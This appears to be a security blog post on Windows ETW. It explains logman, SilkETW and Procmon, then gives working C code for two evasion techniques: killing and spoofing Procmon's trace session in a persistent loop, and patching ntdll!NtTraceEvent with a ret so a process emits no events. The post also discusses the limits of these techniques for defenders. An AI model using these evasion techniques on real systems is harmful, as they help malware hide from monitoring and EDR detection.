



ETW
Table of content
Overview
The Event Tracing for Windows or ETW is the mechanism used by Windows to log system events. ETW are designed through a provider/consumer concept.
The different process write their events in the providers and the consumers can access to these events through the providers.

Several antivirus or EDR solutions such as Microsoft ATP heavily use these events to monitor the system.
The ETW events can be raised by the kernel but also by some userland functions. For example, when performing a simple HTTP request to use the WinHTTP API, an event is raised by the WinHttpSendRequest function on userland, but another event is also raised by the kernel when the connection is bound at the OS level.
While removing userland events can be quite easy, tackling down kernel events can be more challenging.
Logman
Windows provides a built-in tool to access to the ETW tracing sessions: logman. This tool can be used to create, inspect and modify tracing sessions, inspect the different providers and other interesting things.
Providers
The providers are the first stage of the ETW workflow. They are used to collect and categorize events generated by the different processes.
List providers
The different providers can be listed using the following lgoman command:
logman query providers
# Provider GUID
# -------------------------------------------------------------------------------
# _802dot1X {1B243C08-ABC2-C043-37FD-A730D9E8E45C}
# ACPI Driver Trace Provider {DAB01D4D-2D48-477D-B1C3-DAAD0CE6F06B}
# Active Directory Domain Services: SAM {8E598056-8993-11D2-819E-0000F875A064}
# Active Directory: Kerberos Client {BBA3ADD2-C229-4CDB-AE2B-57EB6966B0C4}
# Active Directory: NetLogon {F33959B4-DBEC-11D2-895B-00C04F79AB69}
# ADODB.1 {04C8A86F-3369-12F8-4769-24E484A9E725}
# ADOMD.1 {7EA56435-3F2F-3F63-A829-F0B35B5CAD41}
# Application Popup {47BFA2B7-BD54-4FAC-B70B-29021084CA8F}
# Application-Addon-Event-Provider {A83FA99F-C356-4DED-9FD6-5A5EB8546D68}
# ATA Port Driver Tracing Provider {D08BD885-501E-489A-BAC6-B7D24BFE6BBF}
# AuthFw NetShell Plugin {935F4AE6-845D-41C6-97FA-380DAD429B72}
# ...
As you can see, there are a lot of providers. Each provider is "specialized" in some types of events (such as the Microsoft-Windows-WinHTTP) but some other can compile several types of events such as the Windows Kernel Trace that compile event raised by kernel functions such as VirtualAlloc or CreateProcess.
Inspect Providers
If you want to retrieve a specific type of event, it could be quite challenging as the providers dumped by logman do not show the event they are channeling.
However, logman can be used to inspect the different providers and extract the events they provide.
logman query providers "Microsoft-Windows-WinHTTP"
Provider GUID
-------------------------------------------------------------------------------
Microsoft-Windows-WinHttp {7D44233D-3055-4B9C-BA64-0D47CA40A232}
# Value Keyword Description
# -------------------------------------------------------------------------------
# 0x0000000000000001 Keyword.API API
# 0x0000000000000020 WINHTTP_KEYWORD_AUTOPROXY Flagged on all WinHTTP events dealing with AUTOPROXY
# 0x0000000100000000 Keyword.SEND SEND
# 0x0000000200000000 Keyword.RECEIVE RECEIVE
# 0x0000000400000000 Keyword.L3_CONNECT L3_CONNECT
# 0x0000001000000000 Keyword.CLOSE CLOSE
# 0x0000002000000000 Keyword.SECURITY SECURITY
# 0x0000004000000000 Keyword.CONFIGURATION CONFIGURATION
# 0x0000008000000000 Keyword.GLOBAL GLOBAL
# 0x0000010000000000 Keyword.DROPPED DROPPED
# 0x0000020000000000 Keyword.PII_PRESENT PII_PRESENT
# 0x0000040000000000 Keyword.PACKET PACKET
# 0x0000080000000000 Keyword.ADDRESS ADDRESS
# 0x0000100000000000 Keyword.CONTEXT_EVENT CONTEXT_EVENT
# 0x0000200000000000 Keyword.STATE_TRANSITION STATE_TRANSITION
# 0x0001000000000000 win:ResponseTime Response Time
# 0x0080000000000000 win:EventlogClassic Classic
# 0x8000000000000000 Microsoft-Windows-WinHttp/Diagnostic
# 0x4000000000000000 Microsoft-Windows-WinHTTP-NDF/Diagnostic
# ...
Likewise, this command dumps the different event keys logged by the provider and several other information such as the verbosity level or the different processes that provide events to this provider.
However, it is not possible to retrieve more information about the events as they are usually not documented and it is one of the most important problem with ETW for defenders.
Tracing sessions
As explained in the ETW workflow, the providers collect events raised by processes and tracing sessions will retrieve these events from the providers. The tracing sessions can be seen as a collection of events coming from different chosen providers.
For example, if you want to only retrieve event raised by memory allocation and HTTP connections, you will not be able to find one provider that collects these two types of events. However, you can create a tracing session fed by the Windows Kernel Tracing and the Microsoft-Windows-WinHTTP provider that will give you the two types of events you want.
Tracing sessions can be seen as a personal collection of events.
List tracing sessions
Logman can be used to display the active tracing sessions:
logman query -ets
# Data Collector Set Type Status
# -------------------------------------------------------------------------------
# Circular Kernel Context Logger Trace Running
# Eventlog-Security Trace Running
# DiagLog Trace Running
# Diagtrack-Listener Trace Running
# EventLog-Application Trace Running
# EventLog-System Trace Running
# iclsClient Trace Running
# ...
Inspect tracing sessions
The different tracing sessions are linked to providers. It is possible to inspect the providers queried by each tracing session with the following logman command:
logman query iclsClient -ets
# Name: iclsClient
# Status: Running
# Root Path: C:\Windows\System32\LogFiles\WMI\Intel\iCLSClient
# Segment: Off
# Schedules: On
# Segment Max Size: 40 MB
#
# Name: iclsClient\iclsClient
# Type: Trace
# Output Location: C:\Windows\System32\LogFiles\WMI\Intel\iCLSClient\iclsClient.etl.013
# Append: Off
# Circular: On
# Overwrite: Off
# Buffer Size: 4
# Buffers Lost: 0
# Buffers Written: 23
# Buffer Flush Timer: 2
# Clock Type: Performance
# File Mode: File
#
# Provider:
# Name: Intel-Autologger-iclsClient
# Provider Guid: {B8D7E9A0-65D5-40BE-AFEA-83593FC0164E}
# Level: 255
# KeywordsAll: 0x0
# KeywordsAny: 0xffffffffffffffff
# Properties: 64
# Filter Type: 0
Use tracing sessions
The following command can be used to start a tracing session
logman create trace ${tracingSessionName} -ets
Once the session is created, some providers must be added using the following command :
logman update ${tracingSessionName} -p ${providerName} ${eventValue} -ets
Likewise, a provider can be removed using the following command:
logman update trace ${tracingSessionName} --p ${providerName} ${eventValue} -ets
The tracing session can be stopped using :
logman stop spotless-tracing -ets
The tracing session creates an etl file that can be viewed with Event Viewer.
SilkETW
SilkETW is a tool allowing simple access to ETW events. Indeed, even if logman is quite interesting to inspect providers and tracing sessions, it is not really flexible and easy to use. Moreover, logman can be resource consuming as it logs events system wide.
SilkETW can be used to access to a specific provider and retrieve events either from userland or kerneland providers.
The tool will connect to a specific provider and dump the event in a file JSON formatted that can be easily displayed using a simple text editor.
For example, the following JSON represents an event raised by the kernel during a VirtualAlloc execution:
{
"ProviderGuid": "9e814aad-3204-11d2-9a82-006008a86939",
"YaraMatch": [],
"ProviderName": "MSNT_SystemTrace",
"EventName": "PageFault/VirtualAlloc",
"Opcode": 98,
"OpcodeName": "VirtualAlloc",
"TimeStamp": "2022-09-08T14:30:15.9588384+02:00",
"ThreadID": 37036,
"ProcessID": 35088,
"ProcessName": "HTTP",
"PointerSize": 8,
"EventDataLength": 24,
"XmlEventData": {
"ProviderName": "MSNT_SystemTrace",
"ProcessId": "35,088",
"EventName": "PageFault/VirtualAlloc",
"PID": "35088",
"Flags": "12,288",
"TID": "37036",
"BaseAddress": "0x1094a030000",
"RegionSize": "0x1000",
"MSec": "10155.6890",
"PName": "HTTP"
}
}
The Github documentation is well written and contains all the information needed to use the tool.
Procmon
Procmon is a tool from the SysInternal Suite that allows monitoring events system wide. In order to catch events, Procmon leverage the following techniques:
- System minifilters
- Registry minifilters
- Process and thread callback
- ETW for network events
Blinding Procmon
For some events such as the TCP connections, Procmon use the ETW events. Indeed, when using logman with Procmon launched, the Procmon Event Tracing Session can be found:
logman query -ets | Select-String PROCMON
# PROCMON TRACE Trace Running
The goal is to be able to remove TCP and UDP entries from a Procmon tracing session.
The Pocmon tracing session can be easily stopped using logman :
logman stop "PROCMON TRACE" -ets
Once the session is stopped, Procmon is not able to log network events anymore as it only uses ETW to collect these events.
Automating the process
Using logman to blind Procmon is a nice proof of concept, however, a simple restart of Procmon fixes the problem as the session is restarted by the software.
The idea now is to be able to permanently blind Procmon. A use case is a malware performing network connection with a remote C2. Blinding Procmon will make the malware reversing less obvious. Indeed, there are several other tools that can be used to detect network connections performed, but it is a first step and as said before, a simnple proof of concept on ETW vulnerabilties.
When Procmon is launched, it will automatically create a tracing session named PROCMON TRACE. this session is automatically killed when Procmon is closed. Thus, the idea is to list the different tracing session, and when a Procmon tracing session is found, the program will kill it and recreate a new one not linked to any provider.
As the new tracing session will not be linked to any provider, it will not forward any events to Procmon.
The Win32 API contains several functions to play with ETW tracing sessions:
StartTrace: start a new tracing sessionStopTraceandControlTrace: stop a given tracing sessionQueryTrace: retrieve the settings, properties and statistics of a tracing sessionQueryAllTrace: retrieve the settings, properties and statistics of all active tracing sessionPEVENT_TRACE_PROPERTIES: object used to store trace properties and statistics
Detect Procmon tracing session
First of all, an array of PEVENT_TRACE_PROPERTIES objects must be initialized:
// By default, Windows does not support more than 64 parallele tracing sessions
#define MAXIMUM_LOGGERS 64
#define MAXSTR 1024
// Array containing all tracing sessions
PEVENT_TRACE_PROPERTIES tracingSessions[MAXIMUM_LOGGERS];
// Object representing a single tracing session
ULONG SizeForOneProperty = sizeof(EVENT_TRACE_PROPERTIES) + 2 * MAXSTR * sizeof(TCHAR);
ULONG SizeNeeded = MAXIMUM_LOGGERS * SizeForOneProperty;
PEVENT_TRACE_PROPERTIES singleTracingSession = (PEVENT_TRACE_PROPERTIES)malloc(SizeNeeded);
// Initializing tracingSessions internal structures
for (size_t LoggerCounter = 0; LoggerCounter < MAXIMUM_LOGGERS; LoggerCounter++) {
singleTracingSession->Wnode.BufferSize = SizeForOneProperty;
singleTracingSession->LoggerNameOffset = sizeof(EVENT_TRACE_PROPERTIES);
singleTracingSession->LogFileNameOffset = sizeof(EVENT_TRACE_PROPERTIES) + MAXSTR * sizeof(TCHAR);
// Set the value in the global tracing session array
tracingSessions[LoggerCounter] = singleTracingSession;
// Jump to the next tracing session to initialize
singleTracingSession = (PEVENT_TRACE_PROPERTIES)((PUCHAR)singleTracingSession + singleTracingSession->Wnode.BufferSize);
}
Now the array tracingSessions is initialized, it can be populated using the Win32 API:
// Fill the tracingSessions array with all active sessions information
ULONG numberOfTracingSessions;
Status = QueryAllTraces(
tracingSessions,
MAXIMUM_LOGGERS,
&numberOfTracingSessions
);
From now, the tracingSessions object contains at least the name of all active tracing sessions accessible to the process.
Indeed, some tracing sessions can only be accessed by a high integrity process.
Let’s find the Procmon tracing session:
// variable containing the tracing session name
LPTSTR sessionName;
for(size_t tracingCount; tracingCount < numberOfTracingSessions; tracingCount ++){
// Check if the tracing property contains the tracing session name
// and store it in sessionName if it exists.
if ((tracingSessions[tracingCount]->LoggerNameOffset > 0) && (tracingSessions[tracingCount]->LoggerNameOffset < tracingSessions[tracingCount]->Wnode.BufferSize)) {
sessionName = (LPTSTR)((PUCHAR)tracingSessions[tracingCount] + tracingSessions[tracingCount]->LoggerNameOffset);
}
else {
sessionName = NULL;
}
// Check if it is the Procmon tracing session
if(_tcscmp(sessionName, L"PROCMON_TRACE")){
// start the attack
PEVENT_TRACE_PROPERTIES procmonTracingSession = tracingSessions[tracingCount];
...
break;
}
}
Now the Procmon tracing session is found, let’s run the attack !
Kill Procmon tracing session
The first thing to do is to kill the Procmon tracing session:
ULONG status = StopTraceW((TRACEHANDLE)NULL, L"PROCMON TRACE", procmonTracingSession);
And that's it... The StopTraceW Win32 API will do all the work and kill the tracing session. Just check the returned status to verify nothing goes wrong.
At this moment Procmon should not be able to monitor network events anymore.
Let’s create a fake tracing session mimicking the Procmon legit tracing session.
Create a new tracing session
First of all, a PEVENT_TRACE_PROPERTIES object must be initialized as shown in the first part:
// Size allocated in the property object
ULONG SizeNeeded = sizeof(EVENT_TRACE_PROPERTIES) + 2 * MAXSTR * sizeof(TCHAR);
// Object handling the tracing session properties
PEVENT_TRACE_PROPERTIES newTracingSession = (PEVENT_TRACE_PROPERTIES)malloc(SizeNeeded);
RtlZeroMemory(newTracingSession, SizeNeeded);
newTracingSession->Wnode.BufferSize = SizeNeeded;
// Set the same expected `GUID`
GUID procMonGuid = { 0x75955553, 0x2055, 0x11ED, { 0xA6, 0x4B, 0x78, 0x2B, 0x46, 0x20, 0x15, 0xF6 } }
newTracingSession->Wnode.Guid = procMonGuid;
// This information can be extracted using logman on the legit Procmon tracing session
newTracingSession->Wnode.ClientContext = 1;
newTracingSession->Wnode.Flags = EVENT_TRACE_FLAG_IMAGE_LOAD;
newTracingSession->LogFileMode = EVENT_TRACE_FILE_MODE_SEQUENTIAL;
newTracingSession->LoggerNameOffset = sizeof(EVENT_TRACE_PROPERTIES);
newTracingSession->LogFileNameOffset = newTracingSession->LoggerNameOffset + MAXSTR * sizeof(TCHAR);
newTracingSession->MaximumBuffers = 54;
tracingSessionName = (LPTSTR)((PCHAR)newTracingSession + newTracingSession->LoggerNameOffset);
logFileName = (LPTSTR)((PCHAR)newTracingSession + newTracingSession->LogFileNameOffset);
// Set the tracing session name and the log storing path
_tcscpy_s(logFileName, MAXSTR, _T("C:\\LogFile.Etl"));
_tcscpy_s(tracingSessionName, MAXSTR, L"PROCMON_TRACE");
The tracing session object is initialized. Let’s register this new tracing session using the Win32 API:
TRACEHANDLE tracingSessionHandle = 0;
ULONG status = StartTraceW(&tracingSessionHandle, tracingSessionName, newTracingSession);
And that's it. The StartTraceW Win32 API will handle everything and start the tracing session.
Make it persistent
If you try the previous code, it will do the same thing that what have been done using logman thus, any Procmon restart will erase the modification and re-allows it to monitor network events.
In order to make the change persistent, it is possible to loop the whole attack:
// pseudo code
while(1){
// Check if any procmon tracing session exist
if(!isActiveProcmonTracingSession){
sleep(2000);
continue;
}
// Retrieve the procmon tracing session
procmonTracingSession = getProcmonTracingSession();
// Stop it
stopProcmonTracingSession(procmonTracingSession);
// Create a fake one
createNewProcmonTracingSession(procmonTracingSession);
// Wait until the fake one is deleted by procmon
waitUntilProcmonSessionExists();
}
Limits
This attack is interesting to understand how ETW can be used by software (such as EDR) to monitor processes execution through ETW and how malwares can try to evade ETW monitoring by tampering tracing sessions established.
The problem with ETW is that tracing sessions are global among the system and the modification performed by a given userland process could impact the whole detection mechanism system wide. However, several protection can be set up to avoid tracing session tampering by unprivileged process.
Indeed, some tracing session and providers can only be registered or updated by Protected Process Light or PPL processes. A good example is Defender ATP tracing sessions and providers. Even a high integrity process is not able to tamper the Defender tracing session.
Of course, PPL limitation is not fully secured as driver code or exploit could allow a malicious process to bypass the security but it is a start.
Patching ETW
The previous technique, focusing Procmon tracing session, leverages the fact that tracing sessions can be tampered by any process with the necessary privileges to access to the tracing session.
The following technique will not tamper the tracing sessions but the way a process reports events to the providers.
Indeed, the events are raised by the different processes and written in the providers. If the process is unable to write a new event in the providers, the security applications such as EDR cannot retrieve and analyze these events.
Writing event to a provider
The idea is to patch the Win32 API used to write event on the provider.
It is maybe possible to retrieve the Win32 API through documentation, but as everyone knows, 3 hours of debugging can avoid 15 minutes reading documentation. Thus let’s drop Microsoft documentation and fire up the debugger.
Finding the API
In order to find the API responsible for event writing, let’s use a simple code that generates an easy-to-catch event.
Using logman the following provider is found:
Microsoft-Windows-WinHttp {7D44233D-3055-4B9C-BA64-0D47CA40A232}
This provider is interesting as it is only used when WinHTTP API is used.
Then, a simple code sending an HTTP request using the WinHTTP API:
#include <windows.h>
#include <winhttp.h>
#include <stdio.h>
#pragma comment(lib, "winhttp.lib")
int main(void) {
DWORD dwSize = 0;
DWORD dwDownloaded = 0;
LPSTR pszOutBuffer;
BOOL bResults = FALSE;
HINTERNET hSession = NULL,
hConnect = NULL,
hRequest = NULL;
// Use WinHttpOpen to obtain a session handle.
hSession = WinHttpOpen(L"WinHTTP Example/1.0",
WINHTTP_ACCESS_TYPE_DEFAULT_PROXY,
WINHTTP_NO_PROXY_NAME,
WINHTTP_NO_PROXY_BYPASS, 0);
// Specify an HTTP server.
if (hSession)
hConnect = WinHttpConnect(hSession, L"www.microsoft.com",
INTERNET_DEFAULT_HTTPS_PORT, 0);
// Create an HTTP request handle.
if (hConnect)
hRequest = WinHttpOpenRequest(hConnect, L"GET", NULL,
NULL, WINHTTP_NO_REFERER,
WINHTTP_DEFAULT_ACCEPT_TYPES,
WINHTTP_FLAG_SECURE);
// Send a request.
if (hRequest)
bResults = WinHttpSendRequest(hRequest,
WINHTTP_NO_ADDITIONAL_HEADERS, 0,
WINHTTP_NO_REQUEST_DATA, 0,
0, 0);
// End the request.
if (bResults)
bResults = WinHttpReceiveResponse(hRequest, NULL);
// Keep checking for data until there is nothing left.
if (bResults)
{
do
{
// Check for available data.
dwSize = 0;
if (!WinHttpQueryDataAvailable(hRequest, &dwSize))
printf("Error %u in WinHttpQueryDataAvailable.\n",
GetLastError());
// Allocate space for the buffer.
pszOutBuffer = new char[dwSize + 1];
if (!pszOutBuffer)
{
printf("Out of memory\n");
dwSize = 0;
}
else
{
// Read the data.
ZeroMemory(pszOutBuffer, dwSize + 1);
if (!WinHttpReadData(hRequest, (LPVOID)pszOutBuffer,
dwSize, &dwDownloaded))
printf("Error %u in WinHttpReadData.\n", GetLastError());
else
printf("%s", pszOutBuffer);
// Free the memory allocated to the buffer.
delete[] pszOutBuffer;
}
} while (dwSize > 0);
}
// Report any errors.
if (!bResults)
printf("Error %d has occurred.\n", GetLastError());
// Close any open handles.
if (hRequest) WinHttpCloseHandle(hRequest);
if (hConnect) WinHttpCloseHandle(hConnect);
if (hSession) WinHttpCloseHandle(hSession);
return 0;
}
Finally, SilkETW is used to monitor the provider:
.\SilkETW.exe -t user -pn Microsoft-Windows-WinHttp -ot file -p ./event.txt
The logfile written by SilkETW is JSON formatted and contains the Process ID it is thus easy to verify the event logged has been raised by our process or by another application running on the system.
Once SilkETW is launched and the test program compiled, let’s run it to verify if an event is raised. You should see between 2 and 4 events raised. The test program will raise these events each time it is run.
Let’s go step by step. First, try to identify which function raises an event. Set some system("PAUSE") before each function and wait for an event to be raised.
For example, the function WinHttpSendRequest will raise a single event. Let’s use this function for the next investigations.
Once the function is found, we will use a debugger to follow the call stack until an event is raised. The idea is to run the debugger until a call raise an event.
Inside the WINHTTP!WinHttpSendRequest function, the following line raises the event:

Thus, the program is restarted, a breakpoint is set in the function WINHTTP!WinHttpSendRequest and the code is debugged until a new event is raised.
After iterating this process several times, the following call stack is found:
WINHTTP.dll
==========================================================
HTTP_USER_REQUEST::SendRequest
HTTP_USER_REQUEST::_SendRequestWithDrainComplete
HTTP_USER_REQUEST::_CallGetProxyForUrl
WxGetProxyContext::StartProxyResolve
WxProxyManager::OnProcessGetProxyForUrl
WinHttpClientCompletion::StartProxyResolve
WinHttpClientResolver::GetProxyForUrlImpl
WinHttpClientCompletion::OnProxyResolved
WinHttpClientCompletion::StateStart
McTemplateU0q_EventWriteTransfer
McGenEventWrite_EventWriteTransfer
NTDLL.dll
==========================================================
ntdll!EtwEventWriteTransfer
ntdll!EtwpEventWriteFull
ntdll!NtTraceEvent
SYSCALL
This callstack shows that the function EtwEventWriteFull is the Win32 API used to write an event in the provider when using the WinHTTP API. In fact, this API is used by every userland process. This is convenient as there is a single API to write events and it is located in the NTDLL.DLL.
Thus, this function can be patched to avoid process writing event in the providers.
Patch the DLL
Now we know which function is used to write events in the providers, let’s patch it to avoid any event written by the process.
The patch will be a simple ret added at the beginning of ntdll!NtTraceEvent. The following code can be used to apply the patch:
void patchETW() {
// Retrieve the function to patch
PVOID NtTraceEvent = GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtTraceEvent");
DWORD dwOld;
// Simple patch representing the ret instruction
DWORD retPatch = 0xc3;
// Modify page protection to be able to write the patch
// PAGE_EXECUTE_READWRITE is mandatory as the function is often used
VirtualProtect((LPVOID)((DWORD64)NtTraceEvent), 1, PAGE_EXECUTE_READWRITE, &dwOld);
// Write the patch
CopyMemory((LPVOID)((DWORD64)NtTraceEvent), &retPatch, 1);
// Reprotect the page as PAGE_EXECUTE_READ
VirtualProtect((LPVOID)((DWORD64)NtTraceEvent), 1, dwOld, &dwOld);
}
Once the patch is applied, the modification can be analyzed in Windbg:

Finally, the program is relaunched without debugger and the events are monitored using SilkETW. If the patch has been successfully implemented, no event should be monitored by SilkETW.
Limits
Patching the NtTraceEvent function is a quick way to deactivate ETW events raised by the process. However, as the NTDLL.dll is patched, any EDR performing integrity check will raise an alert. Likewise, in order to patch the API, the page protection is set as PAGE_EXECUTE_READWRITE during the patch writing, an EDR could find the action suspicious and raise an alert.
However, the most important limit is that this attack will only patch event raised in usermode. Indeed, every event raised by kernel functions such as VirtualAlloc or network primitives cannot be avoided with this technique.
Indeed, if you patch the ETW with this technique and you launch Procmon, it will still log the TCP connections performed as it uses ETW events raised by the kernel only. In order to fully patch ETW a driver must be used. Fortunately, ETW structures are not monitored by KPP and can be patched without triggering a BSOD. But this will be a part of another blogpost...